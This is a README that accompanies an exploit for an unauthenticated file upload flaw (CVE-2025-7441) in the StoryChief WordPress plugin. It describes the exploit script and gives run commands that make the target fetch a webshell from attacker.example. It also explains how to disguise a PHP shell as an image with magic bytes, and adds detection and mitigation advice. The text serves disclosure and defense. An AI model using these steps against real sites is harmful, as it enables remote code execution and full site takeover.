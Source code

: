 # CVE-2025-7441
StoryChief &lt;= 1.0.42 - Unauthenticated Arbitrary File Upload
# 🚨 StoryChief <= 1.0.42 — Unauthenticated Arbitrary File Upload (CVE-2025-7441)

## ℹ️ Summary
StoryChief (WordPress plugin) versions up to and including 1.0.42 expose a critical unauthenticated arbitrary file upload vulnerability via the REST endpoint /wp-json/storychief/webhook. An attacker can cause the plugin to fetch and persist an attacker-controlled remote resource (for example, a webshell) into the site's uploads directory, enabling remote code execution in many default WordPress deployments.

- CVE: CVE-2025-7441  
- CVSS: 9.8 (Critical)

---

## 💥 Impact
- Remote unauthenticated file upload to wp-content/uploads/YYYY/MM/<filename>.  
- Potential for remote code execution when the uploaded file is executable (e.g., PHP).  
- Full site compromise is possible when WordPress is configured to execute uploaded PHP under the document root.

---

## 🧩 Vulnerability Root Cause
The plugin accepts an incoming JSON payload (publish event) that contains a featured_image -> data -> sizes -> full field pointing to an arbitrary URL. StoryChief does not perform sufficient filetype/content validation or restrict the URL source, allowing the plugin to fetch the remote resource and save it under the site's uploads directory. There is insufficient validation to prevent storing files that contain executable code.

---

## 🛠️ Exploit script — what it does (mapping to the vulnerability)
This section explains the exploit script (provided separately) at a high level and maps each important behavior to the underlying vulnerability. 

- CLI argument parsing — target URL (-u/--url), remote shell URL (-shell), optional HMAC key, headers, proxy/timeout/retry flags, debug and print-only options.
- Target normalization — appends /wp-json/storychief/webhook when a site root is supplied.
- Shell URL validation — verifies the remote URL is reachable (HEAD/GET or curl).
- Filename extraction — uses the remote URL basename to infer the final uploads filename.
- Payload construction — places the attacker-controlled URL into data.featured_image.data.sizes.full to force the plugin to fetch and store the file.
- HMAC signing (optional) — computes meta.mac (HMAC-SHA256) using an optional hex key; some servers may ignore or require this.
- Delivery — uses requests with retries/backoff or curl fallback, supports custom headers, proxies, and --no-verify.
- Response handling — parses JSON responses for permalink/id keys to detect success; otherwise reports failure.
- Output — prints the expected uploads path: wp-content/uploads/YYYY/MM/<filename> on success.

---

## 🖼️ Shell file requirements (critical)
When using a .php remote file (for example: https://attacker.example/shell.php) the file must include a valid image header (magic bytes) so it will be treated/accepted as an image by the plugin or image-processing code. Key points:

- Use a polyglot approach: the file should begin with valid image magic bytes (e.g., JPEG, PNG, or GIF) so naive checks and image handlers accept it, while also containing the PHP payload in a section that remains on disk verbatim.
- Common image magic bytes:
  - JPEG: 0xFF 0xD8 0xFF
  - PNG: 0x89 0x50 0x4E 0x47
  - GIF: ASCII "GIF89a" or "GIF87a"
- Do not rely solely on filename/extension. Many plugins inspect file contents or use libraries (GD, ImageMagick) that verify image integrity.
- Environment-dependent: some servers will further validate or re-encode images, which may strip injected code. Test in an authorized lab first.
- Ethical reminder: do NOT publish working webshell code here. Create and test such files only in authorized environments.

---

## ▶️ How to run (examples)
Replace placeholders with authorized targets. All examples below use a .php remote shell URL.

- Basic example:
```bash
python3 CVE-2025-7441.py -u https://target.example -shell https://attacker.example/shell.php
```

- With explicit webhook path and debug:
```bash
python3 CVE-2025-7441.py -u https://target.example/wp-json/storychief/webhook -shell https://attacker.example/shell.php --debug
```

- Use curl instead of requests:
```bash
python3 CVE-2025-7441.py -u https://target.example -shell https://attacker.example/shell.php --use-curl
```

- Print payload only (do not send):
```bash
python3 CVE-2025-7441.py -u https://target.example -shell https://attacker.example/shell.php --print-only
```

Important flags:
- --no-verify: skip TLS verification (use with caution).
- --proxy: route requests through a proxy.
- --header "Key: Value": add custom headers.

---

## 📤 Expected outputs
- Successful run:
  - Uploaded: wp-content/uploads/2025/10/shell.php
- Debug examples:
  - [DEBUG] shell HEAD status: 200
  - [DEBUG] post status: 200
  - [DEBUG] curl cmd: curl -s -X POST https://target... -H Content-Type: application/json -d '{"meta":...}'
- Failure messages:
  - "[-] Error: shell URL is not reachable (not HTTP 200)"
  - "[-] Error: request failed"
  - "[-] Error: upload failed or endpoint returned non-JSON/HTML"

---

## 🔎 Detection & Indicators of Compromise (IoC)
- Unexpected POST requests to /wp-json/storychief/webhook from unknown IPs.
- New files in wp-content/uploads/<YYYY>/<MM>/ with PHP extensions or image extensions containing embedded code.
- Webserver logs showing outbound GETs to attacker-controlled domains followed by access to uploaded files.
- Suspicious image files with appended or embedded non-image content.

---

## 🛡️ Mitigation & Remediation
Short term:
- Upgrade StoryChief to a patched version immediately when available.
- Block or restrict /wp-json/storychief/webhook via WAF or server rules.
- Restrict server outbound fetches or egress to untrusted domains.

Developer guidance:
- Validate file types and contents after any remote fetch; verify images using safe parsers and reject invalid files.
- Require authentication for webhooks that cause server-side downloads or file creation.
- Ensure HMAC/signature verification is implemented and enforced.
- Store uploaded content outside the webroot or disable execution of uploaded files in wp-content/uploads (web server rules).

---

## ⚠️ Limitations & Caveats
- Exploit success depends on server configuration, image-processing libraries, and webserver execution policies.
- Servers that reprocess or re-encode images may remove injected payloads.
- If the plugin verifies signatures, supplying an incorrect mac may cause rejection.

---

## 🤝 Responsible Use
This document is for defenders and authorized testers. Do NOT use these techniques against systems you do not own or have explicit permission to test. Unauthorized exploitation is illegal and unethical.

If you are reporting the issue to a vendor or site owner, include reproduction details, safe remediation steps, and suggested fixes.

---

## 📚 References & Credits
- Report and exploit script by: Nxploited (Khaled Alenazi) — script filename: CVE-2025-7441.py (provided separately)
- CVE: CVE-2025-7441
- CVSS: 9.8
